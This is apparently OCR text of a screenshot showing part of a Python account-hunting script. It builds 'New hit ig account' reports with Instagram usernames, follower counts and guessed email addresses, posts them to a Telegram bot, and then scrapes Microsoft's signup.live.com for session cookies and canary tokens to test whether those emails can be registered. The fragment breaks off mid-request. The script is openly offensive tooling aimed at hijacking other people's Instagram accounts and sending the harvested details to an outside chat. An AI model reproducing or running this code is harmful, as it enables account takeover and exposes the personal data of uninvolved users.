 	    try:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Followers ⌉  :  {followers}
	⌊ Following ⌉  :  {following}
	⌊ Username ⌉  :  {username}
	⌊ Posts ⌉  :  {posts}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Date ⌉  :  {date}
	⌊ Rest ⌉  :  {rrr}
	════════════════
	≣ By @RVVRJ @FF5UU
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	    except:
	        ff = f"""
	┒
	┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
	┗
	════════════════
	⌊ Username ⌉  :  {username}
	⌊ Email ⌉  :  {username}@{jj}
	⌊ Rest ⌉  :  {rest(username)}
	════════════════
	≣ By @RVVRJ @FF5UU
	        """
	        requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
	while True:
	    try:
	        res = gg('https://signup.live.com/signup')
	        amsc = res.cookies.get_dict().get('amsc')
	        canary = res.text.split('"apiCanary":"')[1].split('"')[0].encode().decode('unicode_escape')
	        cookies = {
	            'amsc': amsc,
	        }
	        headers = {
	            'authority': 'signup.live.com',
	            'accept': 'application/json',
	            'canary': canary,
	            'origin': 'https://signup.live.com',
	            'referer': 'https://signup.live.com/signup?lic=1&uaid=f26d1e8726944e3f9cc96aafdfdf8225',
	            'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
	        }
	
	        json_data = {
	            'clientExperiments': [
	                {
	                    'parallax': 'enablejspublickeydeprecationexperiment',
	                    'control': 'enablejspublickeydeprecationexperiment_control',
	                    'treatments': [
	                        'enablejspublickeydeprecationexperiment_treatment',
	                    ],
	                },
	            ],
	        }
	
